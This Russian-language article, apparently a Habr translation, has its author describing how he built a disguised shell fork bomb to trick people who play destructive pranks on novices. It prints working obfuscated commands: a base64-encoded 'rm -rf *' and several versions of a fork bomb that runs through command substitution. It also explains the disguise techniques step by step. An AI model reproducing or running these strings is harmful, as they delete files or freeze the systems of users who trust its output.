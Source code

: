 > **Сразу предупреждаю**: не копируйте примеры кода из этой статьи и не запускайте их в своей командной оболочке.

Есть люди, которые развлекают себя жестокими шутками над новичками, обманом подводя их к запуску разрушительных инструкций в командной оболочке.

![](https://habrastorage.org/r/w1560/webt/qq/fs/dy/qqfsdyqkzuksp0s50x2zhogwpue.jpeg)

Часто это принимает форму грубо замаскированных команд, вроде той, что показана ниже. Её запуск приведёт к выполнению в текущей директории команды rm -rf *, которая всё удалит. Вот эта команда:

```
$(echo cm0gLXJmICoK | base64 -d)
```

Много лет назад я наткнулся на людей, которые играли в такие игры, и решил их проучить.

Я не докатился ещё до того, чтобы обманом заставлять кого-то удалять его файлы. Но мне более чем хотелось помочь доморощенным хакерам самим себя подорвать на форк-бомбе.

Я так спроектировал форк-бомбу, что даже когда некто знает о том, что перед ним — деструктивная команда, он её, всё равно, запустит! Я понимаю, что и у вас может возникнуть желание это запустить, но, всё равно, привожу тут код моей бомбы:

```
eval $(echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode)
```

Выглядит это всё как очередная грубо замаскированная опасная команда, но, на самом деле, это не так. Я не пытаюсь играть на знании того факта, что доверчивые новички часто запускают команды, которые им непонятны.

Вместо этого моё изобретение направлено на людей, которые знакомы с подобными фокусами, на тех, кто знает, что эта команда должна превратиться в нечто разрушительное. Здесь я спекулирую на любопытстве таких людей, и на том, что им нравятся инструменты, способные навлечь на кого-то неприятности.

Такой человек, когда ему попадётся команда, о которой мы говорили в самом начале ($(echo cm0gLXJmICoK | base64 -d)), решит исследовать её и убрать из неё конструкцию $(..) для того чтобы узнать о том, чем же именно эта команда поразит жертву. Получится у него следующее:

```
$ echo cm0gLXJmICoK | base64 -d
rm -rf *
```

А что если он сделает то же самое с командой ```eval $(echo «I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==» | uudecode)```, надеясь узреть то страшное, что случится с новичком, которому хватило глупости её запустить?

```
echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode
```

Тот, кто запустит такую команду, внезапно осознает, что его система работает всё медленнее и медленнее. А потом, когда она будет уже практически полностью обездвижена, система уйдёт в вынужденную перезагрузку. Тогда окажется, что именно этот любитель гадостей и был всё время одним из тех новичков, над которыми издеваются такие вот «любители».

Как видите, именно команда eval (…драматическая пауза…) сыграла роль обманки.

На самом деле, и uudecode, и echo и $(..) — все эти конструкции играют свою роль в моём представлении. Они призваны отвлекать внимание, не неся никакой функциональной нагрузки.

Для того чтобы бомба взорвалась, не нужно ничего декодировать, выполнять или вычислять. Вся сила моей бомбы основана на простом раскрытии следующего аргумента в любом контексте:

```
"I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;=="
```

И даже большая часть этой строки присутствует в ней только для вида, для того чтобы всё это было больше похоже на UUE-данные. Вот — та же строка, «маскировочные» символы которой заменены на знаки подчёркивания:

```
"____________`_____&r()(____&r{,______}&r{,_____});r`_________"
```

А вот — то же самое, но записанное немного более понятно:
```
" `r() ( r & r ); r` "
```

Перед нами — самая обычная форк-бомба, работающая благодаря механизму раскрытия команд.

Я создал эту ловушку не сразу, постепенно доводя её до состояния, которое меня устроило.

Вот её первый вариант:
```
eval $(echo 'a2Vrf3xvcml'\ZW%3t`r()(r|r);r`2'6a2VrZQo=' | base64 -d)
```

В целом это — то же самое, но тут имеются несколько проблем:
* Многие довольно хорошо знакомы с кодировкой base64. Вполне очевидно то, что данные, которые тут имеются, представлены не в этой кодировке.
* Расстановка кавычек недвусмысленно указывает на то, где именно начинается и заканчивается строка, ради которой и создавалась вся эта конструкция.
* Форк-бомба, представленная конструкцией `r()(r|r);r`, прямо-таки бросается в глаза.

В кодировке base64 используются почти исключительно алфавитно-цифровые символы, например — bW9yZSBnYXJiYWdlIGhlcmUK, а UUE-данные (это — если кто-то вообще может вспомнить то, как они выглядят) представляют собой набор самых разных символов, среди которых можно хорошо спрятать встроенный в них shell-код: ```1<V]M92!G87)B86=E(&AE<F4` ```. Я, используя соответствующие символы, разбил на части длинные бредовые строки, выглядящие как данные в кодировке base64.

Если говорить о кавычках, то я поместил в строку простые двойные кавычки, надеясь, что никто не обратит внимание на подозрительные символы, помещённые в интерполированную строку.

А вот в том, что касается кода самой бомбы, мне хотелось найти способ внести в строку больше бессмыслицы, но при этом не добавлять в неё пробелов, которые привлекают внимание. Удлинение строки r позволило бы добиться желаемого, но тогда заметным бы стало повторение символов.

Вариант улучшения первоначального кода, на котором я остановился, заключался в использовании механизма раскрытия скобок. Так, foo.{jpg,png} раскрывается в foo.jpg foo.png, а r{,foo} раскрывается в r foo. Такая конструкция позволяет вызвать r с аргументом, игнорируемым функцией.

Вторая версия моего проекта выглядела так:
```
eval $(echo "I<RA('1E<W3t`p&r()(rofl&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode)
```

В основе этого кода лежала идея, в соответствии с которой команда rofl будет выполняться для каждого форка, чтобы было ещё веселее, заполняя экран сообщениями rofl: command not found, но я понял, что наличие в коде некоего заметного слова может привлечь внимание жертвы и привести к дальнейшим исследованиям кода бомбы.

В итоге я пришёл к финальной версии моего кода, который оказался достаточно эффективным. Несколько человек, занимающихся «охотой» на новичков, смущённо признались в том, что попались на мою удочку.

Я, в сущности, обо всём этом забыл, но вот другие люди, очевидно, не забыли о моей форк-бомбе. Примерно через год после её создания вопрос о ней всплыл на SuperUser. Там, кстати, её код [проанализировали](https://superuser.com/questions/996795/how-and-why-is-this-string-of-text-a-fork-bomb) ещё лучше, чем это сделал я. Ну а теперь вы, если тоже интересовались этим кодом, знаете о том, откуда он взялся.

Сталкивались ли вы с форк-бомбами?
